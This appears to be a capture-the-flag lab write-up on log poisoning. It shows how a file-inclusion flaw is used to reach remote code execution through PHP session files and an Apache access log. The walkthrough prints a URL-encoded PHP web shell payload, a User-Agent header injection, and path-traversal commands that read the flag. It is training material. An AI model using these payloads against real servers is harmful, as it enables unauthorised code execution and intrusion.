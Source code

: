 # Log Poisoning

#### Use any of the techniques covered in this section to gain RCE, then submit the output of the following command: pwd

**Step 1** - Get your cookie session:

* Open Inspect Element and copy the cookie value:

<figure><img src="../../../.gitbook/assets/image (280).png" alt=""><figcaption></figcaption></figure>

* Place on the URL with the following format:
  * ```
    /var/lib/php/sessions/sess_u40q7cfju99gqggpo1is17d91d
    ```

<figure><img src="../../../.gitbook/assets/image (281).png" alt=""><figcaption></figcaption></figure>

* The cookie values are successfully read

**Step 2** - Write a web shell:

* URL encode `<?php system($GET["cmd"]);?>` and place in the URL to write a web shell:
  * ```bash
    %3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
    ```

<figure><img src="../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Get the pwd info:

* Use the web shell with the `pwd` command:
  * ```
    /var/lib/php/sessions/sess_YOUR_COOKIE&cmd=pwd
    ```

<figure><img src="../../../.gitbook/assets/image (284).png" alt=""><figcaption></figcaption></figure>



#### Try to use a different technique to gain RCE and read the flag at /

**Step 1** - Try to read the access.log file:

* Place `/var/log/apache2/access.log` on the URL

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

* Intercept it with Burp Suite
* Change the User Agent to a string, to see if its reflected on the log file

<figure><img src="../../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

* Change the User-Agent to `<?php system($_GET['cmd']); ?>`  (use single quotes) and append the `cmd=id`&#x20;

<figure><img src="../../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Get the flag:

* Look for the flag with `cat%20../../../c85ee5082f4c723ace6c0796e3a3db09.txt`

<figure><img src="../../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

And flag found!

